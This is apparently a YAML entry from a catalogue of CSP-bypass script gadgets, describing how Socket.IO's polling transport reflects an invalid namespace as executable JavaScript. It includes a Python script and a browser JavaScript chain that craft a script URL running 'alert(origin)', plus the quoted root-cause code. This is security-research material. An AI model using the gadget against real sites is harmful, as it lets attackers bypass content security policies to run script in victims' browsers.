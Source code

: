 ```yaml
---
description: Realtime application framework (Node.JS server)
github: socketio/socket.io
gadgets:
  Latest:
    authors:
      - twitter:j0r1an
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - script-tag
      - src-attr
      - wh-host-csp
      - any-timing
    pocs:
      - description: |
          The [Socket.IO](https://github.com/socketio/socket.io) client-server communication library has multiple modes is transporting data, one of which is "polling". In this mode, a long-lived request is sent that is only resolved when the server has a message to send to the client. These messages use [a custom protocol](https://socket.io/docs/v4/socket-io-protocol/) which happens to be valid JavaScript, allowing it to be used as a script gadget.

          *From an attacker's backend*, you need to first set up a new random session and send an invalid namespace request, to which the server will respond through another channel, reflecing your given namespace. You will craft a URL for this other channel containing the SocketIO session ID, which the victim will fetch by sending them to a dynamically generated payload. It will be valid for ~30 seconds.

          The following Python script generates a URL that responds with `alert(origin)` on the host when visited:

          ```python
          import requests
          import json

          HOST = "https://socketio.jtw.sh"

          # Request session ID
          r = requests.get(HOST + "/socket.io/", params={"EIO": 4, "transport": "polling"})
          sid = json.loads(r.text[1:])["sid"]
          # Send POST message
          r = requests.post(HOST + "/socket.io/", params={"EIO": 4, "transport": "polling", "sid": sid},
                            data="40/alert(origin),")
          # Craft URL for response
          url = f"/socket.io/?EIO=4&transport=polling&sid={sid}"
          print(url)  # eg. "/socket.io/?EIO=4&transport=polling&sid=gaMirGDfHcBJrIdUAAAD"
          ```

          The above can be implemented into a Flask server that stores the URL in an XSS payload and redirects the victim to it. The code below is an implementation in JavaScript that showcases the full chain.
        code: |
          <base href="https://socketio.jtw.sh">
          <script>
            (async () => {
              // Request session ID
              res = await fetch("/socket.io/?" + new URLSearchParams({ EIO: 4, transport: "polling" })).then(r => r.text());
              sid = JSON.parse(res.slice(1))["sid"];
              // Send POST message
              await fetch("/socket.io/?" + new URLSearchParams({ EIO: 4, transport: "polling", sid }), {
                method: "POST",
                body: "40/alert(origin),"
              });
              // Craft URL for response
              url = "/socket.io/?" + new URLSearchParams({ EIO: 4, transport: "polling", sid });
              console.log(url);  // eg. "/socket.io/?EIO=4&transport=polling&sid=gaMirGDfHcBJrIdUAAAD"
            
              // (loading script example for preview)
              const script = document.createElement("script");
              script.src = url;
              document.body.appendChild(script);
            })();
          </script>
          <!-- user input -->
          <script src="/socket.io/?EIO=4&transport=polling&sid=gaMirGDfHcBJrIdUAAAD"></script>
    more-info: |
      **Root Cause**
      
      Source: <a target="_blank" href="https://github.com/socketio/socket.io/blob/e95f6abf93766662cd3b341599ed312f4330213f/packages/socket.io/lib/client.ts#L137">https://github.com/socketio/socket.io/blob/e95f6abf93766662cd3b341599ed312f4330213f/packages/socket.io/lib/client.ts#L137</a>

      ```javascript
      this._packet({
        type: PacketType.CONNECT_ERROR,
        nsp: name,
        data: {
          message: "Invalid namespace",
        },
      });
      ```

      Source: <a target="_blank" href="https://github.com/socketio/socket.io/blob/e95f6abf93766662cd3b341599ed312f4330213f/packages/socket.io-parser/lib/index.ts#L101">https://github.com/socketio/socket.io/blob/e95f6abf93766662cd3b341599ed312f4330213f/packages/socket.io-parser/lib/index.ts#L101</a>

      ```javascript
      private encodeAsString(obj: Packet) {
        // first is type
        let str = "" + obj.type;

        // attachments if we have them
        if (
          obj.type === PacketType.BINARY_EVENT ||
          obj.type === PacketType.BINARY_ACK
        ) {
          str += obj.attachments + "-";
        }

        // if we have a namespace other than `/`
        // we append it followed by a comma `,`
        if (obj.nsp && "/" !== obj.nsp) {
          str += obj.nsp + ",";
        }

        // immediately followed by the id
        if (null != obj.id) {
          str += obj.id;
        }

        // json data
        if (null != obj.data) {
          str += JSON.stringify(obj.data, this.replacer);
        }

        debug("encoded %j as %s", obj, str);
        return str;
      }
      ```
    links:
      - https://jorianwoltjer.com/blog/p/ctf/intigriti-xss-challenge/0725#csp-bypass-using-socket-io
      - https://socket.io/docs/v4/socket-io-protocol/
---
```

